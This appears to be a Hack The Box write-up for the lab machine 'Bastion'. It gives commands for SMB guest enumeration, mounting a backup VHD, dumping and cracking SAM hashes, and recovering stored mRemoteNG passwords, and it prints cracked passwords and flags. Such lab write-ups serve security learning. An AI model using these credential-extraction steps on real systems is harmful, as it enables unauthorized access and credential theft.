



# Bastion

## User

### Scan
`nmap -sC -sV -p- 10.10.10.134` outputs the following:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-17 17:43 GMT
Nmap scan report for 10.10.10.134
Host is up (0.087s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -40m47s, deviation: 1h09m15s, median: -48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-17T19:42:48+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-17 17:42:50
|_  start_date: 2019-05-15 13:32:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.49 seconds
```

SSH will probably be used later on, but SMB seems like a good starting place.

### SMB

The `smb-security-mode` section of the scan mentions a *guest* user. That doesn't sound like an authenticated user, so maybe we can get access to some shares without having to enter a password.

```
smbmap -H 10.10.10.134 -u guest
```



The `Backups` share looks interesting. An exposed backup file might give us enough information to get an initial foothold. 

```
smbclient \\\\10.10.10.134\\Backups -U guest
```

No password is required. Navigating to `\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 12351\` reveals a backup Virtual Hard Disk. It is a very large file, but we should be able to mount it remotely instead of having to download it.

To mount the `Backups` share, we can use `cifs-utils`. Install with `apt install cifs-utils` and create the directory where you want the share to be mounted. The share can be mounted with the `mount` command.

```
mount -t cifs -o "domain=WORKGROUP,username=guest" \\\\10.10.10.134\\Backups /mnt/backup/
```

Now the `.vhd` can be mounted. I installed `libguestfs-tools` with `apt install libguestfs-tools`. Notice that there are two `.vhd` files, but when trying to mount the smaller one an error pops up saying there is no OS found. The larger one is the only one I could get to mount.

```
guestmount --add WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/
```

### SAM

If we were really lucky, `root` and `user` proof would be right there in the backup, but of course it's not that easy. I looked around for some user slipups like password backups or SSH keys to no avail. However, extracting hashes from the backup does seem to work. `samdump2` is a great tool that will do all of the work for us.

```
cd /mnt/vhd/Windows/System32/config
samdump2 SYSTEM SAM
```

You can work on cracking the hash with whatever tool you want, I used Hashcat. My Macbook is a little finicky with Hashcat, so you may not need the `-D` flag.

```
hashcat -m 1000 -a 0 hash.txt rockyou.txt -D 1
```



The `L4mpje` user's hash was cracked and we can see that the pre-hashed value is `bureaulampje`. My first thought was to try using that password over SSH, and it worked! We have `user.txt`.

```
9bfe57d5c3309db3a151772f9d86c6cd
```

## Root

### mRemoteNG

One applications seems out of place on this mostly fresh Windows machine: mRemoteNG. A quick search for exploit of this app yields a great number of results. [This](http://hackersvanguard.com/mremoteng-insecure-password-storage/) article is really informative and informs us that the hash used to encrypt all of the passwords stored in the application can be completely overwritten! That sounds great, but we need the GUI to use that method.

The second method is to use a Ruby script that can decrypt the `confCons.xml` file online. We just need to find that file. The `AppData` directory is not located where you might expect it to be on this machine. Fortunately, predefined variables make it really easy to find. Navigate to `%AppData%/mRemoteNg` to find the `confCons.xml` file.

Running the Ruby script provides no output or solution! Apparently it is a pretty old script that has been made obsolete. We could try the third option that suggests using Metasploit, but it requires a meterpreter shell and this box seems to have Windows Defender enabled.

I was hoping for a more elegant solution, but I settled for exporting the `confCons.xml` file and transferring it to a Windows machine I have running. I installed mRemoteNG and followed the article's description of the exploit to the letter:

1. Install mRemoteNG
2. Replace the `confCons.xml` *Protected* parameter with `GiUis20DIbnYzWPcdaQKfjE2H5jh//L5v4RGrJMGNXuIq2CttB/d/BxaBP2LwRhY`
3. Load the modified connections file
4. Create an external tool that calls CMD.exe with arguments `/k echo %password%`



To test if this worked, run the external tool on the `L4mpje` user. A new window should pop up with the password we found earlier. Running the same tool on the `DC` user gives us a password of `thXLHM96BeKL0ER2`. That password can be used to SSH into the box as `Administrator` and get `root.txt`.

```
958850b91811676ed6620a9c430e65c8
```
